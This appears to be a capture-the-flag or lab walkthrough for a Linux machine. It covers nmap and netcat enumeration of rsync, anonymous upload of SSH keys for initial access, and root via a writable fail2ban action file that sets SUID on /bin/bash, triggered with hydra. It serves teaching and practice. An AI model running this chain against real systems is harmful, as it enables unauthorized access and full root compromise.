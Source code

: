  
# Export
```md
export IP="192.168.118.126"
export URL="http://192.168.118.126:80/FUZZ"
```

<hr>

# Initial access
-> Rsync anonymous upload.
```bash
fox@fail:~$ id
uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)
```

<hr>

# Privilege Escalation
+ Critical fail2ban config file
```bash
fox@fail:~$ ls -al /etc/fail2ban/action.d/iptables-multiport.conf
-rw-rw-r-- 1 root fail2ban 1440 Aug 18 19:43 /etc/fail2ban/action.d/iptables-multiport.conf
```

+ Modify config file

```bash
$ nano /etc/fail2ban/action.d/iptables-multiport.conf

[...]
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>
                chmod +s /bin/bash
[Init]
```

+ Bruteforcing SSH to trigger the `fail2ban` service.

```bash
$ hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://$IP

[...]
[DATA] attacking ssh://192.168.118.126:22/
[ERROR] ssh target does not support password auth
```

+ `/bin/bash` with SUID bit:

```bash
fox@fail:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

+ `root`
```bash
fox@fail:~$ /bin/bash -p
bash-5.0# whoami
root
```

<hr>

# Nmap
```bash
$ sudo nmap --open -sV -A -p- -vv -n -Pn $IP

PORT    STATE SERVICE REASON         VERSION                     
22/tcp  open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)              
| ssh-hostkey:                 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
|   256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
873/tcp open  rsync   syn-ack ttl 63 (protocol version 31)
```

<hr>

# SSH
+ Version 7.9p1

<hr>

# Rsync
+ rsync or remote synchronization is **a software utility for Unix-Like systems that efficiently sync files and directories between two hosts or machines**.

+ Banner grabbing -> Version: 31.0.

```bash
nc -nv $IP 873                                              
(UNKNOWN) [192.168.118.126] 873 (rsync) open
@RSYNCD: 31.0
```

#### Enumeration
```bash
$ nc -nv $IP 873
(UNKNOWN) [192.168.118.126] 873 (rsync) open
@RSYNCD: 31.0 # -> Banner tells us version
@RSYNCD: 31.0 # -> We then send them the same info 
#list # -> Enumerate the server
fox             fox home # -> End enumeration
@RSYNCD: EXIT # -> The server closes connection
```

+ Valid user: `fox`

+ `fox` shares **don't need authentication**:

```bash
$ nc -nv $IP 873
(UNKNOWN) [192.168.118.126] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
fox
@RSYNCD: OK
```

+ Enumerate shares

```bash
$ rsync -av --list-only rsync://$IP/fox                                                                                                                                                 1 ⨯
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 09:21:59 .
lrwxrwxrwx              9 2020/12/03 15:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 00:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 00:12:36 .bashrc
-rw-r--r--            807 2019/04/18 00:12:36 .profile

sent 20 bytes  received 136 bytes  44.57 bytes/sec
total size is 4,562  speedup is 29.24
```

+ Allow anonymous upload? -> YES.
+ Upload SSH key onto the system.

```bash
$ rsync -av authorized_keys rsync://$IP/fox/.ssh 
sending incremental file list
authorized_keys

sent 674 bytes  received 35 bytes  202.57 bytes/sec
total size is 564  speedup is 0.80
```

+ SSH as `fox`:

```bash
$ ssh -i fox_ssh fox@192.168.118.126
Linux fail 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Aug 18 19:30:50 2021 from 192.168.49.118
$ whoami
fox
```
